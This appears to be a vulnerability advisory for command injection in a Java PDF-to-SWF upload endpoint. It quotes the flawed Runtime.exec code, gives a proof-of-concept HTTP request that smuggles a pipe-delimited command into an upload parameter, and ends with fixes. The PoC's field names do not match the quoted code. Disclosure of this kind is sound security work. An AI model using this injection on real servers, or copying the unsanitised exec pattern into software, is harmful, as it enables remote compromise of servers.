

# Vulnerability Report

## Title: File Path Manipulation Leading to Command Execution

### Summary:
A vulnerability exists in the file upload functionality of the `/pdf2swf` endpoint, where user-controlled input is used to construct a command executed by the server. This can lead to remote command execution (RCE) as the application does not properly sanitize the input, allowing attackers to inject arbitrary commands.

### Affected Endpoint:
`/upload/pdf2swf`

### Vulnerability Type:
File Path Manipulation Leading to Command Execution

### Vulnerable Code:
```java
@RequestMapping({"/pdf2swf"})
@ResponseBody
public String pdf2swf(HttpServletRequest request, HttpServletResponse response) {
    try {
        MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
        MultipartFile imgFile = multipartRequest.getFile("fileupload");
        if (imgFile.getName().endsWith(".jsp")) {
            return null;
        } else {
            String[] paths = FileUtil.getSavePathByRequest(request);
            JsonObject json = FileUtil.saveCommonFile(imgFile, paths); // paths = |ping 127.0.0.1|.pdf
            String pdffilename = FileUtil.rootpath + json.get("url").getAsString();
            pdffilename = pdffilename.replaceAll("//", "/");
            logger.info("pdffilename:" + pdffilename);
            String swfFileName = pdffilename.substring(0, pdffilename.lastIndexOf(".")) + ".swf";
            String res = DocConverter.pdf2swf(pdffilename, swfFileName); // vulnerable
            if (!"success".equalsIgnoreCase(res)) {
                logger.info("res:" + res);
                return res;
            } else {
                return swfFileName.replace(FileUtil.rootpath, "/");
            }
        }
    } catch (Exception var10) {
        logger.error("pdf2swf error", var10);
        return null;
    }
}

public static String pdf2swf(String pdfName, String swfName) throws Exception {
    File pdfFile = new File(pdfName);
    File swfFile = new File(swfName);
    Runtime r = Runtime.getRuntime();
    if (!swfFile.exists()) {
        if (pdfFile.exists()) {
            try {
                // vulnerable
                r.exec("/opt/swftools/bin/pdf2swf " + pdfName + " -o " + swfName + " -T 9");
                logger.info("swf conversion successful, file output: " + swfName);
                return "success";
            } catch (Exception var6) {
                var6.printStackTrace();
                return "convererror";
            }
        } else {
            return "pdfnotexists";
        }
    } else {
        return "swfexists";
    }
}
```

### Proof of Concept (PoC):
```
POST /upload/pdf2swf HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; paths="|ping 127.0.0.1|.pdf"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
An attacker can exploit this vulnerability to execute arbitrary commands on the server, leading to a complete compromise of the server. This can include data exfiltration, service disruption, and further exploitation of the internal network.

### Recommendation:
1. **Input Validation:** Ensure that all user inputs are properly validated and sanitized. Avoid using user input directly in system commands.
2. **Use Safe APIs:** Use safer APIs that do not involve command execution, such as libraries for handling PDF to SWF conversion that do not rely on command-line tools.
3. **Least Privilege:** Run the application with the least privileges necessary to limit the impact of any potential exploitation.
4. **Logging and Monitoring:** Implement comprehensive logging and monitoring to detect and respond to suspicious activities.

### Conclusion:
The file upload functionality in the `/pdf2swf` endpoint is vulnerable to command injection due to improper handling of user input. This vulnerability can lead to severe consequences, including remote command execution. It is crucial to address this issue promptly by implementing proper input validation and using safer APIs.

### References:
- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Java Input Validation](https://www.baeldung.com/java-input-validation)